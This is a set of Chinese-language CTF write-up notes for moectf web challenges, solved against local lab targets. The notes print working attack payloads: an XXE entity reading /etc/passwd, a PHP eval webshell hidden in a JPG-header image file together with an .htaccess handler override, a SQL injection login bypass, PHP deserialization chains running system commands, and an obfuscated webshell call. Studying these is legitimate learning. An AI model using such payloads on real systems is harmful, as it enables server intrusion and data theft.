### moectf web05 打上门来

------


`# 目录穿越/遍历漏洞 `




 学习笔记：https://blog.csdn.net/angry_program/article/details/107855078

### web 10 天机符阵

------

`# XXE注入漏洞`


 外部实体引用：

```XML
<?xml version="1.0" encoding="UTF-8"?>   
<!DOCTYPE note [    //note 根元素名称
  <!ENTITY test SYSTEM "file:///etc/passwd">  //定义外部实体变量test;
]>
<note>&test;</note>    //实体引用
```

学习笔记：https://sh1yan.top/2018/09/15/xxe-study/

### web 12 玉魄玄关·破妄

------


 一句话木马，连接蚁剑，没有发现flag文件，打开虚拟终端，查看环境变量


> AntSword虚拟终端是一个基于Web的交互式命令行界面，能够模拟本地终端的所有功能。可以直接在浏览器中执行系统命令、查看文件目录。同时支持win和linux系统。

蚁剑食用指南：https://www.jianshu.com/p/a89ad062c017

### moectf 第十六章 昆仑星途

------

`# 文件包含漏洞 + data://伪协议`

1. php://filter/read=convert.base64-encode/resource=<文件名>：
    用来读取文件源码，因为Include会把内容当成php文件执行(也叫解析)，如果那个文件里面没有echo之类的输出的话执行后看不到任何东西，所以直接base64编码，让include识别不到，以此直接输出文件源码。
2. data:// 伪协议直接在get里写入内容，不是用post写入；

文件包含漏洞学习笔记:https://www.cnblogs.com/chu-jian/p/17481660.html
 php伪协议学习笔记：https://www.cnblogs.com/endust/p/11804767.html
 文件包含+伪协议例题讲解：https://blog.csdn.net/uuzeray/article/details/134300552

### Moe笑传之猜猜爆

------

`# JS代码审阅`

> 一个简单的...猜数字小游戏？猜错了是不会爆炸的！
>  注意：本题跟爆破没有任何关系！！


 审计代码，可以直接请求`/flag`。

```
知识积累：
fetch('/flag', {method: 'POST'}) 
1.fetch() js代码里用于发送http请求的函数
2.'/flag'，目标url路径
3.method，请求方式
```

### 04 第四章 金曦破禁与七绝傀儡阵

------

> 省流：http请求有很多讲究！试试吧！



 关键：在Headers中添加`X-Forwarded-For: 127.0.0.1`，伪装请求来源为本地

 修改`user-agent`请求头

 改成题目要求`moe browser`

 成功，前往第五关。

 考察身份认证，添加cookie头 `cookie:user=xt`

 第六关，考察页面来源。


> Referer Referer 请求头包含了当前请求⻚⾯的来源⻚⾯的地址，即表⽰当前⻚⾯是通过此来源⻚⾯⾥的链接进 ⼊的。服务端⼀般使⽤ Referer 请求头识别访问来源，可能会以此进⾏统计分析、⽇志记录以及缓存优 化等。


 第七关，Put传递请求体。
 `如果要发送请求体的话，content-type都需要设置`

### 06 第六章 藏经禁制？玄机初探！ {需巩固}

------

`# sql注入`

> 先假设服务器后端编写了这样的不安全的 PHP 代码来完成登录

```php
$sql = "SELECT * FROM users WHERE username='$username' AND password='$password'";
$result = $conn->query($sql);
if ($result->num_rows > 0) {
    // 登录成功
} else {
    // 不成功
}
```

> 由于后端选择直接拼接我们的输入和 sql命令，所以我们可以通过构造闭合来绕过这条检验。
>  最终构造：username=-1’ or ‘1’=‘1’#
>  -1’ 使前面的单引号闭合，or ‘1’=‘1’ 使 条件永远成立，#注释掉后面的全部指令，最终结果就是后端错误地返回了全部用户，我们成功绕过登录。


### 07 第七章 灵蛛探穴与阴阳双生符

------

`# 爬虫文件+MD5碰撞`

> 省流：有这样一个文件，它是一个存放在网站根目录下的纯文本文件，用于告知搜索引擎**爬虫**哪些页面可以抓取，哪些页面不应被抓取。它是网站与搜索引擎之间的 “协议”，帮助网站管理爬虫的访问行为，保护隐私内容、节省服务器资源或引导爬虫优先抓取重要页面。

根据题目，得出为`robot.txt` 文件，打开得到一段php代码

 a,b两个字符值不相等 但 md5值相同，从常见0e开头的md5碰撞表中选择两个即可。
 https://hello-ctf.com/hc-web/php_basic/#md5-0e

### 09 第九章 星墟禁制·天机问路 {真不会}

------



> 现在我们知道了，后端会拿我们的输入去丢给 dig 之类的命令行工具，但是由于配置了坏掉的 DNS，我们没有办法获得正常的查询结果。由于我们没有办法获得正常的查询结果，就排除了构造参数 URL 来获得信息的方法，猜测后端直接拼接了用户输入和指令，我们尝试注入，使用`;`隔断前一条命令。

### 13

------

`# 图片马` 


 在一句话木马前面写入十六进制的要求文件头，由于没有限制文件后缀，因此可以直接创建并上传php文件。使用py脚本完成php文件创建。

```python
# 创建带有 JPG 文件头的 PHP 木马
# JPG 文件头（十六进制）
jpg_header = bytes. fromhex('FFD8FF') 

# PHP 一句话木马
php_code = b'<?php @eval($_POST["cmd"]); ?>'

# 合并
shell_content = jpg_header + php_code

# 写入文件
with open('shell.php', 'wb') as f:
    f.write(shell_content)
#print("[+] shell.jpg 创建成功！")
#print(f"[+] 文件大小: {len(shell_content)} 字节")
```


 post传参实现任意php命令执行。

### 17

`# php反序列化` 

 destruct()会在反序列化时被调用；通过eval()可以将字符串作为php代码执行来进行命令操控；

```php
<?php
class A {
    public $a;
    function __destruct() {
        eval($this->a);
    }
}

$ob=new A();
$ob->a="system('cat /flag');";  //注意eval()中放的字符串命令写法，双引号，加system('')里执行系统命令,最后加分号

echo urlencode(serialize($ob));
?>
```

### 10 第十章 天机符阵_revenge

---

`# XXE注入` 

 和上道题目一摸一样。

### 14 第十四章 御神关·补天玉碑

---

`# .htaccess文件上传+图片马`

> 省流：Apache有一个特殊文件，是什么呢？


 Apache中的配置文件`.htaccess` 可被人为修改实现功能重写，所以我们重写`.htaccess` 文件，让它更改服务器识别我们上传的图片马的逻辑，即把jpg文件可以识别成php文件。

```xml
<FilesMatch "\.(jpg|jpeg)$">
    SetHandler application/x-httpd-php
</FilesMatch>
```

上述代码就是这个功能，所有的jpg或jpeg文件可以被识别成php文件。
 再上传我们写入一句话木马的图片马。图片马的制作方法有很多种，可以用notepad++直接在文末添加，或者用cmd指令合并一个图片和一个php文件。


```cmd
copy 1.jpg/b+2.php/a 3.jpg
```

上传文件，连接蚁剑，Post传参作为密码。打开虚拟终端，`$ env` 查看环境变量，flag一般会藏在这里面。



【学习笔记】制作简单图片马的4种方法：https://www.cnblogs.com/1ink/p/15101706.html

### **18 第十八章 万卷诡阁·功法连环**

---

 【php反序列化】
 题目源码：

```php
 <?php

highlight_file(__FILE__);
class PersonA {
    private $name;
    function __wakeup() {
        $name=$this->name;
        $name->work();
    }
}

class PersonB {
    public $name;
    function work(){
        $name=$this->name;
        eval($name);
    }
}

if(isset($_GET['person'])) {
    unserialize($_GET['person']);
}
```

主要是里面`private` 变量的赋值方法。这里采取：构建Payload时先把`private` 改成`public` 属性，得出poc链，再将`name` 属性改回`private` ,注意格式，语法格式很重要，分号要写，`urlencode()` 函数里放字符串变量，\0 算一个字节。

```
O:7:"PersonA":1:{s:4:"name";O:7:"PersonB":1:{s:4:"name";s:20:"system('cat /flag');";}}
```

对于private变量，需要在类名和字段名前面都会加上\0的前缀,要放到url里可以直接改成%00。
 注意，改Url编码是不会改变字节长度的。//比如name值经过了Url编码

```
O:7:"PersonA":1:{s:13:"%00PersonA%00name";O:7:"PersonB":1:{s:4:"name";s:20:"system%28%27cat+%2Fflag%27%29%3B";}}
```

下面这种提示就是poc里字节长度不匹配了。

```
**Notice**: unserialize(): Error at offset 87 of 89 bytes in **/app/index.php** on line **22**
 来之不易。
```

常用魔术方法积累：

```scss
__construct()    //用于在创建对象时自动触发当使用 new 关键字实例化一个类时，会自动调用该类的 __construct() 方法
__destruct()     //__destruct() 用于在对象被销毁时自动触发对象的销毁对象的引用计数减少为零来触发
__sleep()        //序列化serialize() 函数会检查类中是否存在一个魔术方法sleep()。如果存在，该方法会先被调用，然后才执行序列化操作。此功能可以用于清理对象，并返回一个包含对象中所有应被序列化的变量名称的数组
__wakeup()       //用于在反序列化对象时自动调用unserialize() 会检查是否存在一个 wakeup() 方法，如果存在，则会先调用wakeup()方法
__tostring()     //__tostring() 在对象被当做字符串处理时自动调用比如echo、==、preg_match()
__invoke()       //__invoke() 在对象被当做函数处理时自动调用
__call()         //__call($method, $args) 在调用一个不存在的方法时触发, $args是数组的形式
__callStatic()   //__callStatic() 在静态调用或调用成员常量时使用的方法不存在时触发
__set()          //__set() 在给不存在的成员属性赋值时触发
__isset()        //__isset() 在对不可访问属性使用 isset() 或empty() 时会被触发
__unset()        //__unset() 在对不可访问属性使用 unset() 时会被触发
__clone()        //__clone() 当使用 clone 关键字拷贝完成一个对象后就会触发
__get()          //__get() 当尝试访问不可访问属性时会被自动调用
```

### **摸金偶遇FLAG，拼尽全力难战胜**

---

 【JS 代码审阅】
 数据包 Session 


 先阅读页面源代码查看获得flag的方式，搜索flag字样。

 post向前端请求`answers` 和`token` 两个数据，如果数据正确，返回flag。`realCode` 存储用户输入的数组。

 那继续查找(realCode,myToken)这两个变量，发现get输入长度`length` 启动游戏时，把后端已经写好`data.numbers` 正确答案(已经存在的变量),并把`token` 传给了前端的`myToken` ,

 然后比较数据是否相同，相同则返回flag.
 编写脚本。注意保持在一个 Session 中进行两个请求。

```python
import requests
s=requests.Session()
# session即两次请求携带相同cookie,在服务器眼里属于“同一次连接/同一位用户
challenge=s.get('http://127.0.0.1:61965//get_challenge?count=9').json() # respon.json()
print(challenge)  #可以打印看有哪些键值
result=s.post('http://127.0.0.1:61965/verify',json={
    "token":challenge['token'],
    "answers":challenge['numbers']
})
print(result.text)

```

 真不容易。

学习笔记：


### **03 第三章 问剑石！篡天改命！** 

再来一次。。。

> 省流：仙门试炼台中央矗立着玄天剑宗至宝"问剑石"，石身流转着七彩霞光。你作为新晋弟子需测试天赋，但暗中知晓问剑石运作的玄机——其天赋判定实则通过金曦玄轨传递信息。初始测试将显示天赋：B，光芒：无，你需要施展"篡天改命"之术，修改玄轨中的关键参数，使问剑石显现天赋：S，光芒：流云状青芒(flowing_azure_clouds)的异象，从而获得宗门重视！

出来了，调用一个 API？ 请求数据包的题，用控制台的网络请求修改参数，记得请求头也要改成一样的，否则文本内容会被解析成不同的形式！





### **01 第一章 神秘的手镯_revenge**

---

> K皇：咳咳...其实当年飞升后，为了防止你偷偷看我收藏的小秘密，我重新设置了一个密码放在wanyanzhou.txt里面了......但是我忘记密码是啥了，而且不小心把保存密码的文件删了......
>  HDdss：这...应该有备份吧？
>  K皇：确实有，不过当时着急忘记了...输入太多错误密码，手镯直接锁死了，要连续输入500遍正确密码才能打开。


 写Py脚本，重复500次提交密码，501次提交打开文件，获得内容。

```python
import requests
import json
import time

url="http://127.0.0.1:57091/unseal"
# params={
#     "name":"111"
# }

data={
"content":"密码省略……"
}

headers={ #从控制台网络请求头获取
    "Host": "127.0.0.1:57091",
    "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:147.0) Gecko/20100101 Firefox/147.0",
    "Accept": "*/*",
    "Accept-Language": "zh-CN,zh;q=0.9,zh-TW;q=0.8,zh-HK;q=0.7,en-US;q=0.6,en;q=0.5",
    "Accept-Encoding": "gzip, deflate, br, zstd",
    "Referer": "http://127.0.0.1:57091/",
    "Content-Type": "application/json",
    "X-SPECIAL-HEADER": "magic",
    "Content-Length": "10014",
    "Origin":"http://127.0.0.1:57091",
    "Connection":"keep-alive",
    "Cookie": "session=.eJxFy0EOQDAQBdC7_PVEWkOrvYqIVE1IUAm1EndnZ_GW70acw7pKmgT-RjwkZBn7kOG1NY3jUllVaFdpZiakaxvkOOFbR4qqj6aaDDE1HSHviyR4_POLvTOxtIYHPM8L5N0d7A.aW_C5g.Q7IVBhkcC4EwHbgGOXZKPa67Ioo",
    "Sec-Fetch-Dest":"empty",
    "Sec-Fetch-Mode": "cors",
    "Sec-Fetch-Site": "same-origin",
    "Priority": "u=0"
}
for i in range(501):
    resp = requests.post(url,data=json.dumps(data),headers=headers) #json.dumps:序列化成JSON字符串
    print(resp.text)  # content看到的是二进制内容 .text 输出解码后内容
    time.sleep(0.2) #让程序暂停 0.3秒 再继续执行
```


第501次，页面输出最后的内容。

学习笔记：
 关于linux和win下的文件夹存储：[docs.microsoft.com](https://docs.microsoft.com/windows/wsl/setup/environment#file-storage)
 编辑器/系统自动生成的备份后缀:

- `wanyanzhou.txt~`（很多 Linux 工具/编辑器的备份）
- `.wanyanzhou.txt.swp` / `.swo` / `.swn`（Vim 的交换文件）
- `#wanyanzhou.txt#`（Emacs 临时/备份）
- `wanyanzhou.txt.bak` / `wanyanzhou.bak`
- `wanyanzhou.txt.old`
- `wanyanzhou.txt.orig`
- `wanyanzhou.txt.save`

### **这是...Webshell？**

---

用取反编码做的最后，解决了学期中遗留的问题。



```
?shell=$_=(~%8C%86%8C%8B%9A%92);$__=(~%93%8C%DF%D0);$_($__);
```

Pasted image 20260209010816.png


 幸福来的太突然了，ai太好用了.

### **11 第十一章 千机变·破妄之眼**

---

> 省流：HDdss看到了 GET 参数名由`m,n,o,p,q`这五个字母组成（每个字母出现且仅出现一次），长度正好为 5，虽然不清楚字母的具体顺序，但是他知道参数名等于参数值才能进入。阵中符箓瞬息万变，参数真名每时不同。

写脚本遍历尝试。很奇怪，遍历了几次报错,说是读出超时。

```bash
HTTPConnectionPool(host='127.0.0.1', port=59333): Read timed out. (read timeout=0.3)
```

后来用nick的方法，组合所有可能排列进行传入。

```python
[^1]from itertools import permutations
import requests

payload = {}
for p in permutations("mnopq"):
    payload["".join(p)] = "".join(p)
res = requests.get("http://127.0.0.1:59333", params=payload)
print(res.url, res.text)
```


得到`/find.php` 文件，打开，1发现flag文件，直接打开看不到flag,可能被注释导致无法渲染，用`php://filter/read=convert.base64-encode/resource=flag.php` 伪协议编码过滤，然后得到flag。


